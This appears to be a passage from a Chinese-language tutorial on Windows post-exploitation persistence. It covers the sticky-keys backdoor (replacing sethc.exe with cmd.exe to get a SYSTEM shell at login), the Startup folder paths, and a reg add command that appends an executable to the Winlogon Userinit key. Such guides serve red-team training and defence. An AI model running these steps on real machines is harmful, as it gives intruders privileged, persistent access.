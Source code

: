![image.png](https://img.ghostliner.top/uWt0Cr.png)

**使用 cmd.exe 替换 sethc.exe**

```batch
move sethc.exe sethc_bk.exe
copy cmd.exe sethc.exe
```

**验证**

注销用户，在系统未登录时按下 5 次 Shift 键，运行 sethc.exe，获取 system 权限

![image.png](https://img.ghostliner.top/cTPNcp.png)

## 3. 启动项

### 3.1. 启动文件夹

**启动文件夹（Startup Folder）**：是 Windows 操作系统中的一个重要目录，专门用于存放用户希望在登录时自动启动的程序快捷方式。其作用是通过放置快捷方式，使得相关应用程序或脚本在用户每次启动系统或登录时自动运行，从而提高系统的便利性和效率。

文件夹位置：

```batch
#=========win7-win10=========== 
C:\Users\<用户名>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup #当前用户 
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp #所有用户 #==============xp============== 
C:\Documents and Settings\<用户名>\Start Menu\Programs\Startup #当前用户 
C:\Documents and Settings\All Users\Start Menu\Programs\Startup #所有用户
```

可以通过 `Win+R` 快速进入启动文件夹：
- `shell:startup`: 打开当前用户的启动文件夹
- `shell:common startup`: 打开所有用户的启动文件夹

### 3.2. Winlogon Helper

Winlogon 是 Windows 系统的组件，用于处理与用户有关的各种行为，如登录、注销、在登录时加载用户配置文件、锁定屏幕等。这些行为由系统注册表管理，注册表中的一些键值定义了在 Windows 登录期间会启动哪些进程。

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`：控制着在用户登录时执行的初始化程序。该注册表项指定了用户登录后，系统应当启动的初始化程序，通常是 `userinit.exe`

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\shell`：用户登录后要启动的外壳程序（通常是桌面环境）。该项决定了 Windows 启动时加载的主用户界面进程，通常是 `explorer.exe`

![image.png](https://img.ghostliner.top/yzjvwW.png)

#### 3.2.1. 修改 Userinit 尾随启动

```batch
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\system32\userinit.exe,c:\soft\mm32.exe" /f
```
